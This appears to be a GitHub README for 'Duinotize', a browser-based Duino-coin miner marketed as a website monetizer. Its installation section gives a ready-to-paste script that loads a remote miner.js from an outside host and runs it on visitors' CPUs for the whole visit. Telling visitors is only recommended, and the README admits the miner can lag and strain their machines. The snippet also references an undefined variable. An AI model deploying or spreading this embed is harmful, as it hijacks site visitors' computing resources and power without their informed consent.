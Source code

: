 # Duinotize
_Duino-coin webminer/website monetizer_

Tired of showing users ads? Use Duinotize! It's a modified version of the Duino-coin web miner designed to be integrated into any website 

## Installation
Put the following code at the very bottom of the page where you want the miner to start: (most likley your home page, as the miner will run in the background for the duration your visiters are on the site, not just the page)
```
<script>
let threads = "1";
for (let workersAmount = 0; workersAmount < threads; workersAmount++) {
    let socketWorker = new Worker("https://mobilegmyt.github.io/Duinotize/miner.js");
    socketWorker.postMessage('Start,' + "username" + "," + "rigid" + "," + "0" + "," + Math.floor(Math.random() * 2811) + "," + "difficulty");
    workerVer++;
}
</script>
```
NOTE: You'll want to replace `username` with your Duco account username, `rigid` with the ID you want it to show up as in the wallet, and `difficulty` with a mining difficulty of either "LOW", "MEDIUM", or "EXTREME" (do not use EXTREME or MEDIUM unless you want extreme lag). This is a example of what the postMessage line should look like:
`socketWorker.postMessage('Start,' + "rpinews" + "," + "site-monotizer" + "," + "0" + "," + Math.floor(Math.random() * 2811) + "," + "LOW");`. You can also change the `threads` variable, it is set to 1 for default so it'll work on all devices, but if most people using your site have buff gaming PCs, then you can turn it up to 2 or 3, but it will start to strain their CPU more.

We reccomend you put a note somewhere on your website to tell visiters that there is a crypto miner running in the background, and credit this repo.

This project is a fork/continuation of https://github.com/VatsaDev/Mineuino as the original author seems to have abandoned it and the code is broken.

## Notes
- If there is enough demand for it, I might be able to add a XXHASH miner to the code
- I made this in 2 hours, so if there are bugs PLEASE report them
